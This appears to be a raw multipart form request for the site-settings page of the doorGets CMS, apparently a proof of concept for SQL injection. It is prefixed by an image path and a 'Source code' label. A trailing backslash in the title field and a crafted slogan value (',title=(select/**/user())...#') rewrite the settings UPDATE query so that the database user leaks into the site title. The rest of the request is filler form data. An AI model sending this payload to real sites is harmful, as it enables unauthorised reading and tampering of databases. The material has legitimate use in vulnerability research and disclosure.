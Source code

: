 <audio controls="controls" style="display: none;"></audio>
------WebKitFormBoundarywNHfnN6qoADnI3Pw
Content-Disposition: form-data; name="configuration_siteweb_title"

test1\
------WebKitFormBoundarywNHfnN6qoADnI3Pw
Content-Disposition: form-data; name="configuration_siteweb_slogan"

,title=(select/**/user())/**/WHERE/**/langue=0x656e#
------WebKitFormBoundarywNHfnN6qoADnI3Pw
Content-Disposition: form-data; name="configuration_siteweb_description"

test1
------WebKitFormBoundarywNHfnN6qoADnI3Pw
Content-Disposition: form-data; name="configuration_siteweb_copyright"

test1
------WebKitFormBoundarywNHfnN6qoADnI3Pw
Content-Disposition: form-data; name="configuration_siteweb_keywords"

test1
------WebKitFormBoundarywNHfnN6qoADnI3Pw
Content-Disposition: form-data; name="configuration_siteweb_year"

2019
------WebKitFormBoundarywNHfnN6qoADnI3Pw
Content-Disposition: form-data; name="configuration_siteweb_gmaps"


------WebKitFormBoundarywNHfnN6qoADnI3Pw
Content-Disposition: form-data; name="configuration_siteweb_sharethis"

d29faeb3-5ce2-4616-a7ea-0c87ac3bbf84
------WebKitFormBoundarywNHfnN6qoADnI3Pw
Content-Disposition: form-data; name="configuration_siteweb_id_facebook"

doorgets
------WebKitFormBoundarywNHfnN6qoADnI3Pw
Content-Disposition: form-data; name="configuration_siteweb_id_disqus"

doorgets
------WebKitFormBoundarywNHfnN6qoADnI3Pw
Content-Disposition: form-data; name="configuration_siteweb_signature_tinymce"

<audio controls="controls" style="display: none;"></audio>
------WebKitFormBoundarywNHfnN6qoADnI3Pw
Content-Disposition: form-data; name="configuration_siteweb_cgu_tinymce"

<audio controls="controls" style="display: none;"></audio>
------WebKitFormBoundarywNHfnN6qoADnI3Pw
Content-Disposition: form-data; name="configuration_siteweb_terms_tinymce"

<audio controls="controls" style="display: none;"></audio>
------WebKitFormBoundarywNHfnN6qoADnI3Pw
Content-Disposition: form-data; name="configuration_siteweb_privacy_tinymce"

<audio controls="controls" style="display: none;"></audio>
------WebKitFormBoundarywNHfnN6qoADnI3Pw
Content-Disposition: form-data; name="configuration_siteweb_submit"
